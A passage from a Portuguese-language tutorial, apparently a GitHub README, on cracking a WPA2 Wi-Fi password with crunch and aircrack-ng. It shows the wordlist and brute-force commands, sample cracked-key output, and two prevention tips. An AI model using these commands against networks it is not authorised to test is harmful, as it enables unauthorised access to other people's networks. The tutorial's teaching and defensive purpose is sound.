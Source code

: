 ```bash
## -o: nome do arquivo de saída

crunch 8 8 0123456789 -o mywordlist.txt
```

Para wordlist mais elaboradas, digite no terminal `man crunch`.
### Obtendo a senha

Como no passo anterior já criamos uma wordlist para o ataque, utilizaremos o seguinte comando no terminal

```bash
## -a2: Especificando que a rede é WPA2
## -b: Endereço MAC do access point 
## -w: A wordlist criada
aircrack-ng -a2 -b EC:4D:47:B3:F5:88 -w mywordlist.txt mypackages.cap
```

Neste momento, começará o ataque por força bruta nos pacotes capturados. Quando a senha na wordlist for a senha desejada, irá aparecer no terminal algo parecido com isso, informando a senha da rede Wifi:

```
                                 Aircrack-ng 1.2 beta3


                   [00:00:12] 1414 keys tested (1017.96 k/s)


                         KEY FOUND! [ 23571113 ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
```

### Voltando para modo *managed*
Para voltar sua placa de rede para o modo *managed* (cliente), basta seguir o comando no terminal:
```
service network-manager restart
```

## Maneiras de previnir este ataque
Existem duas formas de prevenção deste tipo de ataque, que são elas:
 - Colocar uma senha forte o suficiente.
 - Implementar segurança nos frames de tipo "Management".
